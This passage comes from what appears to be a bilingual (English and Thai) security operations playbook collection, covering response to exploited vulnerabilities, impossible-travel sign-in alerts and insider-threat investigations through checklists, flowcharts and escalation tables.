    Impact -->|Info Disclosure| High["🟠 Assess Data"]
    Impact -->|DoS| Medium["🟡 Mitigate + Patch"]
    Critical --> Lateral{"🔀 Lateral Movement?"}
    Lateral -->|ใช่| Major["🔴 Major Incident"]
    Lateral -->|ไม่| Contain["🔒 Contain + Patch"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทการโจมตีช่องโหว่

| ประเภท | ลักษณะ | ความรุนแรง |
|:---|:---|:---|
| **Remote Code Execution (RCE)** | รันโค้ดจากระยะไกล | 🔴 วิกฤต |
| **Local Privilege Escalation (LPE)** | ยกระดับสิทธิ์ | 🔴 สูง |
| **SQL Injection** | เข้าถึงฐานข้อมูล | 🔴 สูง |
| **Path Traversal** | อ่านไฟล์ระบบ | 🟠 สูง |
| **SSRF** | เข้าถึง internal resources | 🔴 สูง |
| **Deserialization** | Object injection → RCE | 🔴 วิกฤต |
| **Authentication Bypass** | เข้าระบบโดยไม่ต้อง login | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| CVE ID | Advisory / IDS signature | ☐ |
| CVSS score + attack vector | NVD | ☐ |
| ซอฟต์แวร์และเวอร์ชันที่ได้รับผลกระทบ | CMDB | ☐ |
| อยู่ใน CISA KEV? | [KEV catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) | ☐ |
| Exploit สำเร็จ หรือ attempt เท่านั้น? | IDS/EDR analysis | ☐ |
| หาก RCE → process tree ของ exploit | EDR | ☐ |
| มี web shell ถูกวาง? | EDR / File integrity | ☐ |
| มี lateral movement? | SIEM correlation | ☐ |
| มี data access / exfil? | DLP / DB audit logs | ☐ |

---

## 2. การควบคุม

### 2.1 Exploit Attempt (ไม่สำเร็จ)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Block** source IP ที่ WAF/IPS/firewall | ☐ |
| 2 | **ตรวจ** ว่ายังมี attempt อื่นจาก IP เดียวกัน | ☐ |
| 3 | **เพิ่ม** IPS/WAF rule สำหรับ exploit pattern | ☐ |

### 2.2 Exploit สำเร็จ

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** ระบบที่ถูกโจมตี | ☐ |
| 2 | **Virtual patch** — IPS/WAF rule สำหรับ CVE | ☐ |
| 3 | **Block** source IP ที่ firewall | ☐ |
| 4 | **จำกัด network access** ไปยังระบบเดียวกันที่มีช่องโหว่ | ☐ |
| 5 | **ค้นหา web shell** / backdoor | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Patch** ให้เร็วที่สุด (Emergency Change) | ☐ |
| 2 | ลบ web shell / backdoor | ☐ |
| 3 | ลบ persistence ที่สร้างระหว่าง post-exploitation | ☐ |
| 4 | ตรวจ lateral movement → กำจัดบน host อื่น | ☐ |
| 5 | หมุนเวียน credentials ที่อาจถูกขโมย | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ยืนยันว่า patch ถูกต้อง (vulnerability scan) | ☐ |
| 2 | **เปิด automated patching** สำหรับ OS / middleware | ☐ |
| 3 | เปิด **WAF** สำหรับ web applications | ☐ |
| 4 | ตั้ง **vulnerability scan** รายสัปดาห์ | ☐ |
| 5 | ลด attack surface (ปิด port/service ที่ไม่ใช้) | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| RCE สำเร็จ → compromise ยืนยัน | Major Incident |
| Web shell พบบน production | SOC Lead + CISO |
| Zero-day (ไม่มี patch) | [PB-24 Zero-Day](Zero_Day_Exploit.th.md) + CISO |
| หลายระบบถูก exploit | Major Incident |
| ข้อมูลถูกเข้าถึง | Legal + DPO |

---

### ผัง Exploit Severity Classification

```mermaid
graph TD
    Vuln["🔓 Vulnerability"] --> CVSS{"📊 CVSS?"}
    CVSS -->|9.0+| Critical["🔴 Critical — patch 24h"]
    CVSS -->|7.0-8.9| High["🟠 High — patch 7d"]
    CVSS -->|4.0-6.9| Medium["🟡 Medium — patch 30d"]
    CVSS -->|Under 4.0| Low["🟢 Low — next cycle"]
    Critical --> Weaponized{"⚔️ Weaponized?"}
    Weaponized -->|Yes| Emergency["🚨 Emergency patch NOW"]
    Weaponized -->|No| Critical
    style Emergency fill:#c0392b,color:#fff
    style Critical fill:#e74c3c,color:#fff
```

### ผัง Virtual Patching Architecture

```mermaid
graph LR
    Traffic["🌐 Traffic"] --> WAF["🛡️ WAF"]
    WAF --> VPatch["📋 Virtual Patch Rule"]
    VPatch -->|Match| Block["❌ Block"]
    VPatch -->|No match| App["📱 App"]
    App --> IPS["🔍 IPS"]
    IPS -->|Signature| Alert["🚨 Alert"]
    style WAF fill:#27ae60,color:#fff
    style Block fill:#e74c3c,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| WAF Detected Exploit Attempt | [web_waf_exploit.yml](../../08_Detection_Engineering/sigma_rules/web_waf_exploit.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-24 Zero-Day Exploit](Zero_Day_Exploit.th.md)
- [PB-10 Web Attack](Web_Attack.th.md)

## Exploit Classification & Response

| Exploit Type | Severity | Response Time | Mitigation |
|:---|:---|:---|:---|
| Remote Code Execution | Critical | 1 hr | Isolate + Patch |
| Privilege Escalation | High | 4 hrs | Restrict + Monitor |
| Information Disclosure | Medium | 8 hrs | WAF rule |
| Denial of Service | Medium | 4 hrs | Rate limit |

### Exploit Chain Analysis

| Stage | Indicator | Detection Source |
|:---|:---|:---|
| Recon | Scanning activity | IDS/IPS |
| Weaponize | Payload crafting | N/A (pre-attack) |
| Deliver | Exploit attempt | WAF/IDS logs |
| Exploit | Code execution | EDR/Sysmon |
| Install | Persistence mechanism | EDR |
| C2 | Callback to attacker | Network flow |

### Vulnerability Assessment Post-Exploit

| Check | Tool | Action |
|:---|:---|:---|
| Patch status | Scanner | Apply patches |
| Config hardening | CIS benchmark | Remediate gaps |
| Similar systems | Asset inventory | Scan all |

## อ้างอิง

- [CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)


---

## File: 05_Incident_Response/Playbooks/Impossible_Travel.en.md

# Playbook: Impossible Travel

**ID**: PB-06
**Severity**: Medium/High | **Category**: Identity & Access
**MITRE ATT&CK**: [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts), [T1078.004](https://attack.mitre.org/techniques/T1078/004/) (Cloud Accounts)
**Trigger**: Identity Protection (impossible travel), SIEM (multiple geographic sign-ins), CASB alert

### Analysis Flow

```mermaid
graph TD
    Alert["🌍 Alert"] --> Check{"🔍 VPN/Proxy?"}
    Check -->|Yes| FP["✅ False Positive"]
    Check -->|No| GeoCheck{"📍 True geo?"}
    GeoCheck -->|Travel confirmed| FP
    GeoCheck -->|No travel| Compromise["🔴 Compromise!"]
    Compromise --> Revoke["🔒 Revoke sessions"]
    Revoke --> Reset["🔑 Reset password"]
    Reset --> MFA["📱 Re-register MFA"]
```

### CAE Token Protection

```mermaid
sequenceDiagram
    participant User
    participant App
    participant IdP as Azure AD
    participant SOC
    User->>App: Access resource
    App->>IdP: Validate token
    IdP->>IdP: CAE: Check risk signals
    Note over IdP: Risk detected — impossible travel
    IdP-->>App: ❌ Token revoked
    App-->>User: Session terminated
    IdP->>SOC: 🚨 Alert
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Impossible Travel Alert"] --> VPN{"🔗 Corporate VPN?"}
    VPN -->|Yes, VPN Exit Node| FP["✅ False Positive — VPN"]
    VPN -->|No| Proxy{"🌐 Cloud Proxy / CDN?"}
    Proxy -->|Yes, Zscaler/CF| FP2["✅ FP — Proxy Egress"]
    Proxy -->|No| Physics{"⏱️ Physically Possible?"}
    Physics -->|Yes, Enough Time| Travel{"✈️ User Traveling?"}
    Physics -->|No, Impossible| Suspicious["🔴 Suspicious"]
    Travel -->|Yes, Confirmed| FP3["✅ FP — Legitimate Travel"]
    Travel -->|Unknown| Contact["📞 Contact User"]
    Contact -->|User Confirms| FP3
    Contact -->|User Denies / Unreachable| Suspicious
    Suspicious --> MFA{"🔑 MFA Used?"}
    MFA -->|Yes, Both Logins| Advanced["🔴 MFA Bypass / Token Theft"]
    MFA -->|No, One Login Without| Cred["🟠 Credential Compromise"]
    Advanced --> Terminate["🔌 Terminate All Sessions"]
    Cred --> Terminate
```

---

## 1. Analysis

### 1.1 Common False Positive Sources

| Source | How to Identify | Action |
|:---|:---|:---|
| **Corporate VPN** | Source IP is known VPN exit node | Whitelist VPN IPs |
| **Cloud proxy** (Zscaler, Cloudflare) | IP belongs to proxy ASN | Whitelist proxy ranges |
| **Mobile network** | IP geolocates to carrier hub (not user location) | Verify with user |
| **Shared account** | Multiple people using same creds | Enforce personal accounts |
| **VPN split-tunnel** | Some traffic via VPN, some direct | Check VPN config |
| **Cached credentials** | Laptop login vs cloud login timing | Check auth method |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Both login locations (city, country, ISP) | SIEM / IdP sign-in logs | ☐ |
| Time between logins | Calculate — physically possible? | ☐ |
| IP reputation of both IPs | AbuseIPDB, VirusTotal | ☐ |
| Were both logins via same protocol? | Console / API / IMAP / ActiveSync | ☐ |
| Was MFA required and passed on both? | IdP MFA logs | ☐ |
| Device fingerprint (browser, OS) | IdP details | ☐ |
| User's known location | HR / Manager / User | ☐ |
| Is the user a frequent traveler? | Travel history, role | ☐ |

### 1.3 Post-Login Activity Analysis

| Check | What to Look For | Done |
|:---|:---|:---:|
| Email access | New inbox rules, mass email read, forwarding | ☐ |
| File access | Bulk downloads from SharePoint/OneDrive | ☐ |
| Admin actions | Role changes, new app registrations | ☐ |
| MFA changes | New MFA method registered | ☐ |
| Password change | Self-service password reset | ☐ |
| OAuth consents | New app permissions granted | ☐ |

---

## 2. Containment

### 2.1 Confirmed Impossible Travel (Not FP)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Terminate all active sessions** | IdP (Revoke Sessions) | ☐ |
| 2 | **Reset password** immediately | AD / IdP | ☐ |
| 3 | **Revoke refresh tokens** (cloud apps) | Azure AD / Okta | ☐ |
| 4 | **Block suspicious IP** at firewall/conditional access | Firewall / IdP | ☐ |
| 5 | **Enforce MFA re-registration** (existing MFA may be compromised) | IdP | ☐ |

### 2.2 If Token Theft Suspected

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Revoke ALL OAuth tokens and app consents | ☐ |
| 2 | Check for adversary-in-the-middle phishing (EvilProxy, Evilginx) | ☐ |
| 3 | Check endpoint for token-stealing malware | ☐ |
| 4 | Enable token protection / CAE (Continuous Access Evaluation) | ☐ |

---

## 3. Investigation

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Determine which login is legitimate and which is attacker | ☐ |
| 2 | Audit all actions from attacker session | ☐ |
| 3 | Check for inbox rules / forwarding created during attacker session | ☐ |
| 4 | Check for data accessed / downloaded during attacker session | ☐ |
| 5 | Search for same attacker IP accessing other accounts | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Re-enable account with strong password + MFA | ☐ |
| 2 | Remove any inbox rules / app consents created by attacker | ☐ |
| 3 | Enable Named Locations and block high-risk countries | ☐ |
| 4 | Enforce Conditional Access: compliant device required | ☐ |
| 5 | Monitor account for 30 days | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Suspicious login IP | | IdP sign-in logs |
| Geolocation (attacker) | | IP geolocation |
| User-Agent (attacker session) | | IdP details |
| ASN / ISP | | WHOIS |
| Login protocol | | IdP |
| Actions performed from attacker IP | | Cloud audit logs |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Executive / VIP account | CISO immediately |
| MFA bypass confirmed (token theft) | Tier 2 + Identity team |
| Multiple accounts from same attacker IP | Major Incident |
| Data exfiltration from compromised session | [PB-08](Data_Exfiltration.en.md) + Legal |
| Inbox rules created → BEC follow-up | [PB-17 BEC](BEC.en.md) |
| Admin account compromised | [PB-05](Account_Compromise.en.md) + CISO |

---

### Conditional Access Architecture

```mermaid
graph TD
    Login["🔓 Login"] --> CA{"🛡️ Conditional Access"}
    CA -->|Trusted Location| Allow["✅ Allow"]
    CA -->|Unknown Location| MFA["📱 Require MFA"]
    CA -->|Risky Sign-in| Block["❌ Block"]
    CA -->|Unmanaged Device| Limited["⚠️ Limited Access"]
    MFA --> Compliant{"📋 Compliant?"}
    Compliant -->|Yes| Allow
    Compliant -->|No| Block
    style Block fill:#e74c3c,color:#fff
    style Allow fill:#27ae60,color:#fff
```

### Token Theft Detection

```mermaid
sequenceDiagram
    participant Attacker
    participant IdP
    participant SOC
    participant CAE
    Attacker->>IdP: Use stolen token
    IdP->>CAE: Check — new IP!
    CAE->>IdP: ❌ Revoke token
    IdP-->>Attacker: 401 Unauthorized
    CAE->>SOC: 🚨 Token theft alert
    SOC->>SOC: Correlate with impossible travel
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Impossible Travel Detection | [cloud_impossible_travel.yml](../../08_Detection_Engineering/sigma_rules/cloud_impossible_travel.yml) |
| Azure AD Risky Sign-in | [cloud_azure_risky_signin.yml](../../08_Detection_Engineering/sigma_rules/cloud_azure_risky_signin.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-17 BEC](BEC.en.md)
- [PB-04 Brute Force](Brute_Force.en.md)

## References

- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [Microsoft Identity Protection — Risk Detections](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)
- [Token Theft Playbook](https://learn.microsoft.com/en-us/security/operations/token-theft-playbook)


---

## File: 05_Incident_Response/Playbooks/Impossible_Travel.th.md

# Playbook: Impossible Travel / การเข้าสู่ระบบจากสถานที่ที่เป็นไปไม่ได้

**ID**: PB-06
**ระดับความรุนแรง**: ปานกลาง/สูง | **หมวดหมู่**: Identity & Access
**MITRE ATT&CK**: [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts)
**ทริกเกอร์**: SIEM/IdP alert (Login จากสองสถานที่ห่างไกลในเวลาสั้น), Identity Protection


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน Conditional Access policies
- [ ] ใช้ sign-in risk policies (medium/high = block/MFA)
- [ ] ตรวจสอบ token theft indicators
- [ ] ทบทวน named locations configuration
- [ ] สร้าง detection rule สำหรับ suspicious login patterns
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการวิเคราะห์ Impossible Travel

```mermaid
graph LR
    L1["📍 Login 1: กรุงเทพ"] --> Calc["⏱️ คำนวณ"]
    L2["📍 Login 2: นิวยอร์ก"] --> Calc
    Calc --> Time{"⏳ 30 นาที?"}
    Time -->|เป็นไปไม่ได้| Alert["🔴 Alert"]
    Time -->|เป็นไปได้| FP["✅ FP"]
    style L1 fill:#3498db,color:#fff
    style L2 fill:#e74c3c,color:#fff
    style Alert fill:#c0392b,color:#fff
```

### ผัง CAE Token Protection

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant App
    participant CAE as Continuous Access Eval
    User->>App: ใช้ token เข้าถึง
    CAE->>CAE: ตรวจ: IP เปลี่ยน? Risk เปลี่ยน?
    CAE->>App: ❌ Revoke token ทันที
    App-->>User: 🔒 ต้อง re-authenticate
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Impossible Travel"] --> FP{"🔍 False Positive?"}
    FP -->|VPN / Proxy| Close["✅ บันทึก FP"]
    FP -->|เดินทางจริง| Close
    FP -->|ไม่ใช่ FP| Investigate["🔎 สอบสวน"]
    Investigate --> Activity{"📊 กิจกรรมหลัง Login?"}
    Activity -->|ปกติ| User["📞 ยืนยันกับผู้ใช้"]
    Activity -->|ผิดปกติ| Compromise["🔴 บัญชีถูกบุกรุก"]
    Compromise --> Reset["🔐 รีเซ็ต + เพิกถอน"]
```

---

## 1. การวิเคราะห์

### 1.1 สาเหตุ False Positive ที่พบบ่อย

| สาเหตุ | วิธีตรวจสอบ | ดำเนินการ | เสร็จ |
|:---|:---|:---|:---:|
| **VPN องค์กร** (exit node ต่างประเทศ) | VPN logs → match IP | Whitelist VPN IPs | ☐ |
| **Cloud proxy / CDN** (Zscaler, Cloudflare) | Proxy logs | Whitelist proxy IPs | ☐ |
| **ผู้ใช้เดินทางจริง** (สนามบิน→ปลายทาง) | สอบถามผู้ใช้/ปฏิทิน | Document + close | ☐ |
| **Mobile network handoff** | ISP analysis | Close | ☐ |
| **Shared account** | IAM audit | ปิด shared account | ☐ |
| **Browser extension / SSO** | User Agent | Close | ☐ |

### 1.2 รายการตรวจสอบ (หากไม่ใช่ FP)

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| IP ทั้งสองอยู่ที่ไหน? (GeoIP) | SIEM / GeoIP | ☐ |
| ระยะทางและเวลาระหว่าง login เป็นไปได้? | คำนวณ (km/เวลา) | ☐ |
| Device / User Agent เหมือนกัน? | Sign-in logs | ☐ |
| กิจกรรมหลัง login ที่ location ใหม่ | SIEM / Cloud audit | ☐ |
| ดาวน์โหลดข้อมูล / เข้า SharePoint? | File audit | ☐ |
| สร้าง inbox rules? | Exchange audit | ☐ |
| เปลี่ยน MFA methods? | IdP audit | ☐ |
| OAuth apps ถูก consent? | Enterprise Apps | ☐ |
| Token theft indicators? (AiTM proxy) | Sign-in → token details | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **ยกเลิก session** ที่ location ผิดปกติ | IdP admin | ☐ |
| 2 | **รีเซ็ตรหัสผ่าน** (out-of-band) | IdP admin | ☐ |
| 3 | **ติดต่อผู้ใช้** ยืนยันตัวตน (โทรศัพท์!) | Phone call | ☐ |
| 4 | หากยืนยันไม่ได้ → **ล็อกบัญชี** ทันที | IdP admin | ☐ |
| 5 | **ตรวจ inbox rules / delegates** | Exchange admin | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ inbox rules / forwarding ที่ผิดปกติ | ☐ |
| 2 | ลบ OAuth apps ที่ consent ระหว่างโจมตี | ☐ |
| 3 | ลงทะเบียน MFA ใหม่ (FIDO2/passkeys) | ☐ |
| 4 | หมุนเวียน refresh tokens | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ตั้งค่า **Named Locations** (trusted IPs) ใน IdP | ☐ |
| 2 | บังคับ **Conditional Access** ตาม location + device compliance | ☐ |
| 3 | เปิด **CAE** (Continuous Access Evaluation) | ☐ |
| 4 | ใช้ **Phishing-resistant MFA** (FIDO2) สำหรับ admins | ☐ |
| 5 | Tune impossible travel alert thresholds (ลด FP) | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Token theft / AiTM ยืนยัน | [PB-26 MFA Bypass](MFA_Bypass.th.md) |
| ข้อมูลถูก access / ดาวน์โหลด | [PB-08 Data Exfil](Data_Exfiltration.th.md) |
| Admin account | CISO ทันที |
| BEC indicators (inbox rules + financial) | [PB-17 BEC](BEC.th.md) |
| หลายบัญชีมี impossible travel พร้อมกัน | Major Incident |

---

### ผัง Conditional Access Architecture

```mermaid
graph TD
    Login["🔓 Login"] --> CA{"🛡️ Conditional Access"}
    CA -->|Trusted Location| Allow["✅ Allow"]
    CA -->|Unknown Location| MFA["📱 Require MFA"]
    CA -->|Risky Sign-in| Block["❌ Block"]
    CA -->|Unmanaged Device| Limited["⚠️ Limited Access"]
    MFA --> Compliant{"📋 Compliant?"}
    Compliant -->|Yes| Allow
    Compliant -->|No| Block
    style Block fill:#e74c3c,color:#fff
    style Allow fill:#27ae60,color:#fff
```

### ผัง Token Theft Detection

```mermaid
sequenceDiagram
    participant Attacker
    participant IdP
    participant SOC
    participant CAE
    Attacker->>IdP: ใช้ stolen token
    IdP->>CAE: ตรวจ — IP ใหม่!
    CAE->>IdP: ❌ Revoke token
    IdP-->>Attacker: 401 Unauthorized
    CAE->>SOC: 🚨 Token theft alert
    SOC->>SOC: Link กับ impossible travel
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Impossible Travel Detection | [cloud_impossible_travel.yml](../../08_Detection_Engineering/sigma_rules/cloud_impossible_travel.yml) |
| Azure AD Risky Sign-in | [cloud_azure_risky_signin.yml](../../08_Detection_Engineering/sigma_rules/cloud_azure_risky_signin.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)
- [PB-26 MFA Bypass](MFA_Bypass.th.md)

## False Positive Assessment

| Scenario | Likely FP? | Verification |
|:---|:---|:---|
| VPN + office login | ✅ High | Check VPN logs |
| Mobile + desktop | ✅ Medium | User confirmation |
| Two countries < 2 hrs | ❌ Low | Investigate |
| Service account travel | ❌ Very Low | Alert immediately |

### Velocity Analysis Template

| Login 1 | Login 2 | Distance | Time | Speed | Verdict |
|:---|:---|:---|:---|:---|:---|
| Bangkok | Singapore | 1,400 km | 30 min | Impossible | ⚠️ Alert |
| Bangkok | Chiang Mai | 600 km | 3 hrs | Possible (flight) | ℹ️ Verify |
| Office | Home (VPN) | Same city | 5 min | VPN likely | ✅ FP |

### Investigation Checklist
- [ ] Verify both login sources (IP geolocation)
- [ ] Check for VPN/proxy usage
- [ ] Contact user for confirmation
- [ ] Review session tokens and cookies
- [ ] Check for credential sharing
- [ ] Assess data access during sessions

### VPN/Proxy Identification

| Source | Check | Tool |
|:---|:---|:---|
| Known VPN IPs | Internal VPN logs | SIEM |
| Commercial VPN | IP reputation DB | TI Feed |
| Tor exit nodes | Published list | Auto-block |

### Response Decision Matrix

| Confidence | Action | SLA |
|:---|:---|:---|
| High (no VPN) | Suspend + investigate | 15 min |
| Medium | User verification | 1 hr |
| Low (VPN likely) | Log + monitor | 24 hrs |

## อ้างอิง

- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)


---

## File: 05_Incident_Response/Playbooks/Insider_Threat.en.md

# Playbook: Insider Threat

**ID**: PB-14
**Severity**: High/Critical | **Category**: Data Protection / HR
**MITRE ATT&CK**: [T1534](https://attack.mitre.org/techniques/T1534/) (Internal Spearphishing), [T1567](https://attack.mitre.org/techniques/T1567/) (Exfiltration Over Web Service), [T1052](https://attack.mitre.org/techniques/T1052/) (Exfiltration Over Physical Medium)
**Trigger**: UEBA alert, DLP alert, HR referral, Whistleblower report, Manager report

### Risk Assessment Flow

```mermaid
graph TD
    Indicator["🚨 Indicator"] --> Risk{"⚖️ Level?"}
    Risk -->|Low: off-hours access| Monitor["👁️ Monitor 30 days"]
    Risk -->|Medium: bulk download| CovertOps["🕵️ Covert Investigation"]
    Risk -->|High: exfil + resignation| Overt["🔴 Overt — Lock Account"]
    CovertOps --> Evidence{"📁 Evidence?"}
    Evidence -->|Yes| HR["👥 HR + Legal"]
    Evidence -->|No| Continue["🔄 Continue Monitoring"]
```

### Coordination Flow

```mermaid
sequenceDiagram
    participant SOC
    participant HR
    participant Legal
    participant Manager
    participant IT
    SOC->>HR: Report insider threat indicators
    HR->>Legal: Consult legal requirements
    Legal-->>HR: Recommend approach
    HR->>Manager: Consult (overt cases)
    SOC->>IT: Increase DLP monitoring
    HR->>SOC: Approve overt action
    SOC->>IT: Lock account + preserve data
```

> ⚠️ **IMPORTANT**: Insider threat investigations are highly sensitive. Coordinate with HR and Legal BEFORE taking visible actions. Do NOT alert the subject prematurely.

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Insider Threat Indicator"] --> Type{"📋 Indicator Type?"}
    Type -->|UEBA / DLP Alert| Technical["🔍 Technical Investigation"]
    Type -->|HR Referral| HR["📞 HR Coordination First"]
    Type -->|Tip / Report| Context["🔍 Validate Report"]
    Technical --> Status{"👤 Employment Status?"}
    HR --> Status
    Context --> Status
    Status -->|Leaving / Notice Period| HighRisk["🔴 High Risk — Accelerate"]
    Status -->|Active Employee| Assess["⚠️ Assess Behavior"]
    Status -->|Already Departed| Urgent["🚨 Check What Was Taken"]
    HighRisk --> Scope["📊 Scope Assessment"]
    Assess --> Scope
    Urgent --> Scope
    Scope --> Action{"Confirmed Malicious?"}
    Action -->|Yes| Contain["🔒 Contain + Legal"]
    Action -->|Unclear| Monitor["👁️ Enhanced Monitoring"]
```

---

## 1. Analysis

### 1.1 Behavioral Indicators

| Category | Indicators | Detection |
|:---|:---|:---|
| **Data hoarding** | Bulk file downloads, mass email forwards | DLP, CASB |
| **Unusual access** | Accessing files outside job scope | UEBA, file audit |
| **Off-hours activity** | Logins at 2 AM, weekends (unusual for role) | SIEM, UEBA |
| **USB usage** | Large USB transfers, new USB devices | DLP, Endpoint |
| **Cloud uploads** | Large uploads to personal cloud | Proxy, CASB |
| **Email to personal** | Forwarding work email to personal account | Email DLP |
| **Privilege abuse** | Accessing admin tools beyond role needs | SIEM, PAM |
| **Resignation context** | Recent resignation, PIP, conflict | HR referral |
| **Technical evasion** | Disabling monitoring tools, clearing logs | EDR, SIEM |

### 1.2 Employment Context

| Check | Action | Source | Done |
|:---|:---|:---|:---:|
| Employment status | Active / Notice / PIP / Terminated? | HR | ☐ |
| Recent performance issues | Written warnings, conflicts? | HR | ☐ |
| Access level | What systems/data can they access? | IAM / CMDB | ☐ |
| Departure date (if leaving) | How much time remains? | HR | ☐ |
| Known grievances | Labor disputes, denied promotion? | HR (confidential) | ☐ |

### 1.3 Technical Scope Assessment

| Check | How | Done |
|:---|:---|:---:|
| Files accessed in past 30 days | DLP / File audit / Cloud audit | ☐ |
| Email sent to external addresses | Email gateway logs | ☐ |
| USB device connections | Endpoint agent / SIEM | ☐ |
| Cloud uploads (personal services) | Proxy / CASB | ☐ |
| Print jobs (large or sensitive) | Print server logs | ☐ |
| Code repository activity | Git/SVN audit (clones, downloads) | ☐ |
| Screenshots / screen recording | Endpoint monitoring | ☐ |

---

## 2. Containment

### 2.1 Covert Containment (Before Confrontation)

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Enable enhanced monitoring (DLP, UEBA, email) | SOC | ☐ |
| 2 | Restrict USB ports (silently via GPO) | IT Ops | ☐ |
| 3 | Block personal cloud service URLs | Proxy | ☐ |
| 4 | Capture forensic image of laptop (during maintenance window) | Forensics | ☐ |
| 5 | Place legal hold on email / cloud storage | Legal + IT | ☐ |

### 2.2 Overt Containment (After Decision to Act)

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Disable all accounts immediately | IT Security | ☐ |
| 2 | Revoke VPN, remote access, badge access | IT + Physical Security | ☐ |
| 3 | Seize company devices (laptop, phone) | HR + Physical Security | ☐ |
| 4 | Escort from premises (if on-site) | Physical Security + HR | ☐ |
| 5 | Disable email / redirect to manager | IT | ☐ |

---

## 3. Investigation (Forensic)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Create forensic image of all assigned devices | ☐ |
| 2 | Analyze email for data sent to personal accounts | ☐ |
| 3 | Review USB connection history (mounted devices, file copies) | ☐ |
| 4 | Analyze browser history (personal cloud, file sharing) | ☐ |
| 5 | Review print history for sensitive documents | ☐ |
| 6 | Check code repository activity (bulk clone, branch downloads) | ☐ |
| 7 | Analyze deleted files (recycle bin, $Recycle.Bin forensics) | ☐ |
| 8 | Document timeline of all suspicious activities | ☐ |

---

## 4. Recovery & Legal

### 4.1 Immediate

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Brief HR and Legal on findings | SOC Lead | ☐ |
| 2 | Determine employment action (termination, warning) | HR + Legal | ☐ |
| 3 | Assess data exposure — what was taken? | SOC + Business unit | ☐ |
| 4 | Notify affected parties if PII exposed | Legal / DPO | ☐ |

### 4.2 Long-Term

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Update DLP rules based on exfiltration method used | ☐ |
| 2 | Review access controls for the role (over-provisioned?) | ☐ |
| 3 | Implement/enhance UEBA baselining | ☐ |
| 4 | Conduct security awareness on insider threat indicators | ☐ |

---

## 5. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| PII or customer data confirmed exfiltrated | Legal + DPO (PDPA 72h) |
| Source code / trade secrets taken | CISO + Legal + Executive |
| Evidence of sabotage (deleting data) | CISO + Legal |
| Armed/threatening behavior | Physical Security + Police |
| Collusion with external party | CISO + Legal + Law enforcement |

---

### Insider Threat Indicators

```mermaid
graph TD
    UEBA["🔍 UEBA"] --> Behav{"🧠 Behavioral?"}
    UEBA --> Tech{"💻 Technical?"}
    Behav --> Resign["📝 Resignation/dissatisfaction"]
    Behav --> Hours["🕐 Behavioral changes"]
    Tech --> Volume["📊 Excessive downloads"]
    Tech --> Access["🔓 Unusual data access"]
    Tech --> USB["💾 USB/Cloud upload"]
    Volume --> Score["⚠️ Risk Score"]
    Access --> Score
    USB --> Score
    style Score fill:#e74c3c,color:#fff
```

### Covert Investigation Process

```mermaid
sequenceDiagram
    participant HR
    participant Legal
    participant SOC
    participant Forensics
    HR->>Legal: Report abnormal behavior
